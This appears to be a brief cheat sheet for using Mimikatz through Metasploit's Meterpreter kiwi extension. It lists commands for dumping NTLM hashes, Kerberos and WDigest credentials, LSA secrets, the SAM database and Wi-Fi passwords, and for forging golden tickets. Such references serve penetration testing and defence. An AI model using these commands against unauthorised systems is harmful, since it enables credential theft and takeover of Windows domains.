 # Mimikatz in Meterpreter

## import

load kiwi

## kiwi commands

      'kiwi_cmd'              => 'Execute an arbitary mimikatz command (unparsed)',
      'dcsync'                => 'Retrieve user account information via DCSync (unparsed)',
      'dcsync_ntlm'           => 'Retrieve user account NTLM hash, SID and RID via DCSync',
      'creds_wdigest'         => 'Retrieve WDigest creds (parsed)',
      'creds_msv'             => 'Retrieve LM/NTLM creds (parsed)',
      'creds_ssp'             => 'Retrieve SSP creds',
      'creds_livessp'         => 'Retrieve Live SSP creds',
      'creds_tspkg'           => 'Retrieve TsPkg creds (parsed)',
      'creds_kerberos'        => 'Retrieve Kerberos creds (parsed)',
      'creds_all'             => 'Retrieve all credentials (parsed)',
      'golden_ticket_create'  => 'Create a golden kerberos ticket',
      'kerberos_ticket_use'   => 'Use a kerberos ticket',
      'kerberos_ticket_purge' => 'Purge any in-use kerberos tickets',
      'kerberos_ticket_list'  => 'List all kerberos tickets (unparsed)',
      'lsa_dump_secrets'      => 'Dump LSA secrets (unparsed)',
      'lsa_dump_sam'          => 'Dump LSA SAM (unparsed)',
      'password_change'       => 'Change the password/hash of a user',
      'wifi_list'             => 'List wifi profiles/creds for the current user',
      'wifi_list_shared'      => 'List shared wifi profiles/creds (requires SYSTEM)'

